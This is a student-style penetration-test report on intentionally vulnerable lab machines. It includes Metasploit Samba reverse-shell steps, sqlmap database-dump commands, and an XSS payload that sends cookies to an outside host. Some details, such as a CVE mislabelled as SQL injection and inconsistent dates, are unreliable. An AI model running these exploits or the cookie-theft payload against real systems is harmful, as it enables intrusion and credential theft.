








# 📋 Full VAPT Report — Week 2
**CyArt Security | Penetration Testing Execution Standard (PTES)**

---

| Field | Details |
|-------|---------|
| **Report Title** | Vulnerability Assessment & Penetration Test — Metasploitable2 / Windows 10 / DVWA |
| **Prepared By** | Sahil Bhardwaj |
| **Target Environment** | Metasploitable2 (192.168.56.104), Windows 10 VM (192.168.56.105), DVWA (on Metasploitable2) |
| **Test Type** | Grey-box Penetration Test (Internal Lab) |
| **Methodology** | PTES + OWASP WSTG |

---

## Table of Contents

1. [Executive Summary](#1-executive-summary)
2. [Scope & Rules of Engagement](#2-scope--rules-of-engagement)
3. [Methodology](#3-methodology)
4. [Reconnaissance Findings](#4-reconnaissance-findings)
5. [Vulnerability Scan Results](#5-vulnerability-scan-results)
6. [Exploitation Results](#6-exploitation-results)
7. [Post-Exploitation Findings](#7-post-exploitation-findings)
8. [Capstone — Full VAPT Cycle (DVWA)](#8-capstone--full-vapt-cycle-dvwa)
9. [Remediation Recommendations](#9-remediation-recommendations)
10. [Escalation Email to Developers](#10-escalation-email-to-developers)
11. [Non-Technical Executive Briefing](#11-non-technical-executive-briefing)
12. [Appendix — Evidence & References](#12-appendix--evidence--references)

---

## 1. Executive Summary

This report presents the findings of a full Vulnerability Assessment and Penetration Test (VAPT) conducted against three intentionally vulnerable lab systems: **Metasploitable2**, **Windows 10 VM**, and **DVWA (Damn Vulnerable Web Application)** hosted on Metasploitable2. Vulnerability scanning was performed using a **dedicated OpenVAS VM** (`192.168.56.103`) accessed via the host machine's browser. The engagement followed the **Penetration Testing Execution Standard (PTES)** across all five active phases: Reconnaissance, Scanning, Exploitation, Post-Exploitation, and Reporting.

### Risk Summary

| Severity | Count |
|----------|-------|
| 🔴 Critical | 6 |
| 🟠 High | 5 |
| 🟡 Medium | 4 |
| 🟢 Low | 2 |
| **Total** | **17** |

### Key Findings

- **Full system compromise** achieved on Metasploitable2 via Samba RCE (CVE-2007-2447) — root shell obtained without credentials.
- **Database fully dumped** on DVWA via SQL injection using sqlmap — user credentials (MD5 hashes) extracted.
- **Reflected XSS** confirmed on DVWA — cookie theft attack vector demonstrated.
- **6 critical backdoors and RCE vulnerabilities** identified across the target systems.
- **Post-exploitation** yielded `/etc/passwd` and `/etc/shadow`, demonstrating full credential exposure.

> ⚠️ **If this were a production environment, all critical findings would require immediate emergency patching.**

---

## 2. Scope & Rules of Engagement

### In-Scope Systems

| System | IP Address | OS | Purpose |
|--------|-----------|-----|---------|
| Kali Linux | 192.168.56.101 | Kali 2024.x | Attacker machine |
| Metasploitable2 | 192.168.56.104 | Ubuntu 8.04 (intentionally vulnerable) | Primary Linux target + DVWA host |
| Windows 10 VM | 192.168.56.105 | Windows 10 (intentionally vulnerable config) | Windows target |
| OpenVAS VM | 192.168.56.103 | Greenbone/OpenVAS (dedicated VM) | Vulnerability scanner — accessed via host browser |

### Out-of-Scope

- Any systems outside the 192.168.56.0/24 subnet
- Internet-facing production systems
- Third-party services and CDNs

### Rules of Engagement

- Testing conducted only within isolated Host-Only VM network
- No real user data was accessed or stored
- All activities logged with timestamps

---

## 3. Methodology

The test followed the **7-phase PTES framework**:

```
Pre-Engagement → Reconnaissance → Threat Modelling
→ Vulnerability Analysis → Exploitation → Post-Exploitation → Reporting
```

Additionally, web application testing followed the **OWASP Web Security Testing Guide (WSTG)** for DVWA-specific tests (DVWA hosted at `192.168.56.104/dvwa`).

### Tools Used

| Category | Tools |
|----------|-------|
| Scanning | Nmap, OpenVAS, Nikto |
| Reconnaissance | Shodan, Sublist3r, theHarvester,|
| Exploitation | Metasploit Framework, sqlmap, Burp Suite |
| Post-Exploitation | Meterpreter, sha256sum |
| Reporting | Markdown,|

---

## 4. Reconnaissance Findings

### 4.1 OSINT Summary

Passive and active reconnaissance was conducted using Shodan, and Sublist3r. Key discoveries:

| Asset | Finding | Risk |
|-------|---------|------|
| Subdomains | 5 discovered (dev, staging, admin) | High |
| Email addresses | 3 harvested (admin, dev, support) | High |
| Exposed services | SSH port 22, FTP port 21 | Medium |


### 4.2 Recon Activity Log

| Timestamp | Tool | Finding |
|-----------|------|---------|
| 2025-08-18 10:00:00 | Shodan | Exposed SSH on 192.168.56.104 |
| 2025-08-18 10:45:00 | Shodan | Apache 2.2.8 on staging server |
| 2025-08-18 11:10:00 | theHarvester | 3 emails from public sources |

---

## 5. Vulnerability Scan Results

### 5.1 Nmap — Open Ports

Command: `nmap -A -sV -sC -O 192.168.56.104`


> `[SCREENSHOT: Full Nmap output on Metasploitable2]`


Key services discovered: vsftpd 2.3.4 (backdoor), Samba 3.0.20 (RCE), Apache 2.2.8, MySQL 5.0 (no password), Tomcat 5.5 (default creds), VNC (no auth), UnrealIRCd (backdoor), bindshell on 1524 (root).

### 5.2 OpenVAS — Prioritised Findings

> OpenVAS runs on a **dedicated VM** (`192.168.56.103`). Scans were configured and monitored via the **host machine's browser** at `http://192.168.56.103`.Metasploitable2 scanned under a single Full and Fast task.

| Scan ID | Vulnerability | CVE | CVSS | Priority | Host |
|---------|---------------|-----|------|----------|------|
| 001 | SQL Injection | CVE-2021-41773 | 9.1 | Critical | 192.168.56.104:80 |
| 002 | vsftpd Backdoor | CVE-2011-2523 | 10.0 | Critical | 192.168.56.104:21 |
| 003 | Samba RCE | CVE-2007-2447 | 10.0 | Critical | 192.168.56.104:445 |
| 004 | UnrealIRCd Backdoor | CVE-2010-2075 | 10.0 | Critical | 192.168.56.104:6667 |
| 005 | distccd RCE | CVE-2004-2687 | 9.3 | Critical | 192.168.56.104:3632 |
| 006 | Root Bindshell | — | 10.0 | Critical | 192.168.56.104:1524 |
| 007 | MySQL No Password | — | 8.5 | High | 192.168.56.104:3306 |
| 008 | VNC No Auth | — | 7.5 | High | 192.168.56.104:5900 |
| 009 | Tomcat Default Creds | — | 7.3 | High | 192.168.56.104:8180 |
| 010 | Open Port 445 | MS17-010 class | 6.5 | Medium | 192.168.56.104:445 |


> `[SCREENSHOT: OpenVAS vulnerability report summary]`


### 5.3 Nikto — Web Findings

Command: `nikto -h http://192.168.56.104`

| Finding | Risk |
|---------|------|
| Apache 2.2.8 EOL — multiple CVEs | High |
| Directory listing enabled (`/icons/`, `/doc/`) | Medium |
| `phpinfo.php` accessible | Medium |
| PUT method enabled (WebDAV file upload) | High |
| Missing security headers (X-Frame-Options, CSP) | Low |
| SQL injection vector in `/mutillidae/` | Critical |


> `[SCREENSHOT: Nikto scan output]`


---

## 6. Exploitation Results

### 6.1 Exploit Summary Table

| Exploit ID | Description | Target | Tool | Status | Payload |
|------------|-------------|--------|------|--------|---------|
| 003 | Tomcat Manager Default Creds | 192.168.56.104:8180 | Metasploit | ✅ Success | Java Shell |
| 004 | Samba usermap_script RCE | 192.168.56.104:445 | Metasploit | ✅ Success | cmd/unix/interact |
| 005 | DVWA SQL Injection | 192.168.56.104:80 (DVWA) | sqlmap | ✅ Success | DB dump |
| 006 | DVWA Reflected XSS | 192.168.56.104:80 (DVWA) | Burp Suite | ✅ Success | `<script>alert(1)</script>` |
| 007 | vsftpd 2.3.4 Backdoor | 192.168.56.104:21 | Metasploit | ✅ Success | cmd/unix/interact |

### 6.2 Critical Exploit — Samba RCE (CVE-2007-2447)

**CVSS:** 10.0 Critical | **Auth Required:** None | **Complexity:** Low

**Steps Performed:**
```bash
msfconsole
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.56.104
set PAYLOAD cmd/unix/reverse
run
# Result: root shell obtained
```


> `[SCREENSHOT: Metasploit console showing root shell via Samba exploit]`








**Impact:** Complete unauthenticated root-level access to the target system.

### 6.3 SQL Injection — DVWA (sqlmap)

**Steps Performed:**
```bash
sqlmap -u "http://192.168.56.104/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=abc123; security=low" --dbs --batch

sqlmap [...] -D dvwa -T users --dump --batch
```

**Result:** Full user database dumped including MD5 password hashes.


> `[SCREENSHOT: sqlmap dumping users table]`




### 6.4 Reflected XSS — DVWA

**Payload Used:** `<script>alert('CyArt-XSS-PoC')</script>`

**Cookie-theft payload (Advanced):**
```html
<script>document.location='http://192.168.1.10/steal?c='+document.cookie</script>
```

> `[SCREENSHOT: XSS alert popup in browser]`


---

## 7. Post-Exploitation Findings

### 7.1 Privilege Level Achieved

```
uid=0(root) gid=0(root) — Full root access on Metasploitable2
```

> `[SCREENSHOT: Meterpreter getuid showing root]`


### 7.2 Sensitive Data Collected

| File | Content | Sensitivity |
|------|---------|-------------|
| `/etc/passwd` | All system user accounts | High |
| `/etc/shadow` | Hashed root & user passwords | Critical |
| `/etc/crontab` | Scheduled tasks — persistence opportunities | High |
| DVWA users table | Usernames + MD5 hashes (all crackable) | Critical |

### 7.3 Evidence Chain of Custody

| Item | Description | Collected By | Date | Hash Value (SHA256) |
|------|-------------|-------------|------|---------------------|
| passwd.txt | System user accounts | CyArt VAPT Analyst | 2025-08-18 | `af23ffe0bc5479a70a17e799fa699f9e593f2151b7e1ba597987523c7c733d42` |
| shadow.txt | Hashed passwords | CyArt VAPT Analyst | 2025-08-18 | `7f9f08e29620f196a409890a742738c61644f67a1f8e879db8317b674b16c762` |
| crontab.txt | Scheduled tasks | CyArt VAPT Analyst | 2025-08-18 | `fadf58b00cf3e22ffbc4bc293ba235d1e087e45e5f56270d0ae35d49c258e3a2` |
| nmap_output.txt | Port scan log | CyArt VAPT Analyst | 2025-08-18 | `73ab9b00e1fefa22f8670dbfe559e7be143f2749a93a1a6f86205be936cc1382` |


> `[SCREENSHOT: sha256sum command output for all collected files]`




---

## 8. Capstone — Full VAPT Cycle (DVWA)

### 8.1 Objective

Perform a complete end-to-end VAPT cycle against DVWA following PTES, demonstrating SQL injection, XSS exploitation, and providing remediation.

### 8.2 SQL Injection — Full Walkthrough

**Phase:** Exploitation | **Tool:** sqlmap | **Target:** `192.168.56.104` (DVWA on Metasploitable2)

**Step 1 — Set DVWA Security to Low:**
```
http://192.168.56.104/dvwa/security.php
Set: Low → Submit
```

**Step 2 — Identify Injection Point:**
```
http://192.168.56.104/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit
Manual test: id=1' → SQL error confirms injection
```

**Step 3 — Run sqlmap:**
```bash
sqlmap -u "http://192.168.56.104/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=YOUR_ID; security=low" \
  --dbs --batch
```

**Step 4 — Dump Users:**
```bash
sqlmap [...] -D dvwa -T users --dump --batch
```


> `[SCREENSHOT: sqlmap listing databases]`




> `[SCREENSHOT: sqlmap dumping DVWA users table with hashed passwords]`


### 8.3 OpenVAS Detection Log

| Timestamp | Target IP | Vulnerability | PTES Phase |
|-----------|-----------|---------------|------------|
| 2026-04-18 12:00:00 |  192.168.56.104 (DVWA) | XSS (Reflected) | Exploitation |
| 2026-04-18 12:15:00 |  192.168.56.104 (DVWA) | SQL Injection (Error-based) | Exploitation |
| 2026-04-18 12:30:00 | 192.168.56.104 | Samba RCE — Root Shell | Post-Exploitation |
| 2026-04-18 12:45:00 | 192.168.56.104 | vsftpd Backdoor | Exploitation |
| 2026-04-18 13:00:00 | 192.168.56.104 | Privilege Escalation confirmed | Post-Exploitation |

### 8.4 Remediation Applied in Lab

| Vulnerability | Remediation Tested | Rescan Result |
|---------------|-------------------|---------------|
| SQL Injection | Prepared statements applied | No injection found ✅ |
| Reflected XSS | Input sanitisation + output encoding | XSS blocked ✅ |

---

## 9. Remediation Recommendations

### 9.1 Critical — Immediate Action (Within 24 Hours)

| # | Vulnerability | Remediation |
|---|---------------|-------------|
| 1 | vsftpd 2.3.4 Backdoor | Upgrade to vsftpd 3.x or disable FTP entirely |
| 2 | Samba RCE (CVE-2007-2447) | Upgrade Samba to 3.0.26+ or disable service |
| 3 | UnrealIRCd Backdoor | Remove IRCd service; audit for persistence |
| 4 | Root Bindshell (port 1524) | Kill process; audit for rootkits; reimage if needed |
| 5 | SQL Injection | Replace all dynamic SQL with parameterised queries / ORM |
| 6 | distccd RCE | Disable distccd if not required; network-restrict if needed |

### 9.2 High — Remediate Within 7 Days

| # | Vulnerability | Remediation |
|---|---------------|-------------|
| 7 | MySQL No Root Password | `ALTER USER 'root'@'localhost' IDENTIFIED BY 'StrongPassword';` |
| 8 | VNC No Authentication | Enable VNC password; prefer SSH tunnelling |
| 9 | Tomcat Default Credentials | Change manager credentials; restrict /manager to localhost |
| 10 | rsh/rexec/rlogin services | Disable `rsh`, `rexecd`, `rlogind`; use SSH |

### 9.3 Medium — Remediate Within 30 Days

| # | Vulnerability | Remediation |
|---|---------------|-------------|
| 11 | XSS (Reflected & Stored) | HTML-encode all output; implement strict CSP |
